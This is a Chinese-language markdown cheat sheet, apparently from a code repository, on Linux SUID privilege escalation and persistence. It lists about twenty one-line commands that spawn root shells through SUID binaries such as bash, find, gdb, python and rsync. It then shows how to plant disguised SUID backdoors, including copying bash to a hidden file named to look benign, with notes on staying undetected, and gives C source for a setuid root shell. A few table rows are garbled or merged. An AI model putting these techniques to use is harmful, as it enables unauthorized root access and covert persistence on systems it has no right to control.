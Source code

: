 # suid提权

## suid异常命令

下面这些命令当具有s权限时将能用于提权。

```shell
chmod 6755 /bin/x
```



| 提权命令                                                     | 路径              |
| ------------------------------------------------------------ | ----------------- |
| bash -p                                                      | /usr/bin/bash     |
| csh -b                                                       | /usr/bin/csh      |
| sh -p                                                        | /usr/bin/sh       |
| ksh -p                                                       | /usr/bin/ksh      |
| zsh                                                          | /usr/bin/zsh      |
| find  /etc/passwd -exec bash -p \;                           | /usr/bin/find     |
| env  /bin/sh -p                                              | /usr/bin/env      |
| gdb -nx  -ex 'python import  os;os.execl("/bin/sh","sh","-p")' -ex quit | /usr/bin/gdb      |
| python  -c 'import os;os.execl("/bin/sh","sh","-p")'         | /usr/bin/python   |
| expect -c 'spawn /bin/sh -p; interact'                       | /usr/bin/expect   |
| xargs -a  /dev/null sh -p                                    | /usr/bin/xargs    |
| ip netns  add foo<br/>ip netns exec foo /bin/sh -p<br/># ip netns delete foo | /usr/sbin/ip      |
| strace  -o /dev/null /bin/sh -p                              | /usr/bin/strace   |
| rsync -e  'sh -p -c "sh -p 0<&2 1>&2"' 127.0.0.1:/dev/null   | /usr/bin/rsync    |
| setarch  $(arch) /bin/sh -p                                  | /usr/bin/setarch  |
| nice  /bin/sh -p"                                            | /usr/bin/nice     |
| CMD="/bin/sh"<br>php -r "pcntl_exec('/bin/sh', ['-p']);"stdbuf  -i0 /bin/sh -p | usr/bin/stdbuf    |
| taskset  1 /bin/sh -p                                        | /usr/bin/taskset  |
| tclsh     exec /bin/sh -p <@stdin >@stdout 2>@stderr         | /usr/bin/tclsh    |
| logsave  /dev/null /bin/sh -i -p"                            | /usr/sbin/logsave |
| ionice  /bin/sh -p                                           | /usr/bin/ionice   |

## suid后门

### 1 利用系统内suid程序的副本

隐蔽性强，成本低，特别是起了冷门但有迷惑性的程序后。缺点是散列值肯定与系统内母本散列值一样，可能被检测到。

```shell
root:
cp /usr/bin/bash ~/.bashrc.bak -a
chmod 6755  ~aplyc1a/.bashrc.bak
#.bashrc.bak即为一个suid后门
```



```shell
root:
cp /usr/bin/env /usr/bin/lshwloc
chmod 6755 /usr/bin/lshwloc
```

### 2 编译suid shell

```shell
//gcc suid.c ...; chmod 6755 ...;
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```




